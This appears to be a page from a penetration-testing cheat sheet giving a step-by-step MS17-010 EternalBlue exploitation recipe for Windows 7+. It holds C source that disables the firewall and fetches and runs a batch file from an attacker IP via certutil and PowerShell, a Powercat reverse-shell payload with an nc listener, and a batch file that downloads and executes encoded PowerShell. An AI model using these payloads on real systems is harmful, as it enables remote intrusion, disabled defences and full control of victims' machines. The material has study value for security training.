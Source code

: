 ```yaml
---
title: MS17-010 EternalBlue
parent: Common Exploits
layout: default
nav_order: 3
---
```


This disables the firewall, evade AV, and can work even without PowerShell. Windows 7+.

1. Go to your /tmp folder and setup http listener: `python3 -m http.server 80`
2. Create the following file `testexe.c` in /tmp (Change IP)
3. Compile it to something.exe: `i686-w64-mingw32-gcc testexe.c -o /tmp/something.exe`
4. Generate a payload using Powercat (replace LHOST and LPORT with attacker IP):
   `pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c IP -p 25 -e cmd.exe -ge" > /tmp/shell-25.txt`
5. Create the file `/tmp/backup.bat`  in /tmp as below. (Change IP)
6. Set up a listener on port 25 to catch Powercat: `rlwrap nc -nlvp 25`
7. Download the file `mysmb.py` and `send_and_execute.py` from here: https://github.com/helviojunior/MS17-010 and put them in the same folder.
8. Run the python2 script `send_and_execute.py` using pipenv shell:
   `python send_and_execute.py targetIP /tmp/something.exe`
9. Wait patiently!

##### testexe.c (REMEMBER IP PORT)
```c title="testexe.c"
#include <stdlib.h>
int main ()
{
int i;
i = system ("netsh advfirewall set allprofiles state off");
i = system ("certutil.exe -urlcache -split -f \"http://192.168.119.213:80/backup.bat\" C:\\Windows\\Tasks\\backup.bat");
i = system ("powershell.exe -c (New-Object System.Net.Webclient).DownloadFile('http://192.168.119.213:80/backup.bat','C:\\Windows\\Tasks\\backup.bat')");
i = system ("START /B C:\\Windows\\Tasks\\backup.bat");
i = system ("icacls C:\\Windows\\Tasks\\* /c /t /grant everyone:f");
return 0;
}
```
##### backup.bat (REMEMBER IP)

``` bat title="backup.bat"
START /B powershell -c $code=(New-Object System.Net.Webclient).DownloadString('http://IP:80/shell-25.txt');iex 'powershell -E $code'
```